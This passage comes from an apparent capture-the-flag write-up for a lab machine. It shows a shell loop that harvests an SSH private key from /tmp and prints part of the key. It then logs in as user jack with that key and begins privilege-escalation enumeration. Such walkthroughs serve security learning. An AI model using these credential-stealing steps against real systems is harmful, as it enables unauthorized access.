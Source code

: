     
    
    jack@mysql:~$ while : ; do cat /tmp/*/key 2>/dev/null; if [ $? -ne 1 ]; then break; fi; done
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAoklCLF2ADUXkxp6NeQjdMjpoNbc0PUG2wumQ10nf1aIl3pils2QS
    ZYvEGk+eYsJZCnnLZTe2kJ8U073MrpVlmLtmHlDtdKCZfEguzc9nZjKHIICamNsMNhpTLs
    ...[snip]...
    wJ3Z9QCVL74NS/G8YcZiGR8DvWlH65eI9N892+EwcA0pptnV5oEs3ef5YY7+56PxvKe11N
    1WV9Zy6HwXxxoTrXpV2B80Sy/sGFU33QWHbVEHC4SKggdauMbRmHkjCZoDmUqfsNvUhNQb
    0jZ2DP0AFwApsAAAAIcm9vdEBsYWIBAgM=
    -----END OPENSSH PRIVATE KEY-----
    

### SSH

The key works to SSH to the host as jack:

    
    
    oxdf@hacky$ ssh -i ~/keys/toby-jack jack@toby.htb
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    ...[snip]...
    Last login: Mon Jul 12 16:17:23 2021 from 192.168.0.42
    jack@toby:~$
    

And I can grab `user.txt`:

    
    
    jack@toby:~$ cat user.txt
    94837d9f************************
    

## Shell as root

### Enumeration

#### Host

There’s not a lot on the host for privesc based on typical enumeration. No
`sudo`, unusual SUID binaries.

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/linPEAS) didn’t return anything particularly useful, and
`pspy` didn’t spot much I hadn’t already observed.

#### supportsystem-db - Gogs

The other repo in toby-admin’s Gogs instance was named supportsystem-db. It
has only one commit, and a single file:

[![image-20211009143652556](https://0xdfimages.gitlab.io/img/image-20211009143652556.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211009143652556.png)

The file is a SQLite database:
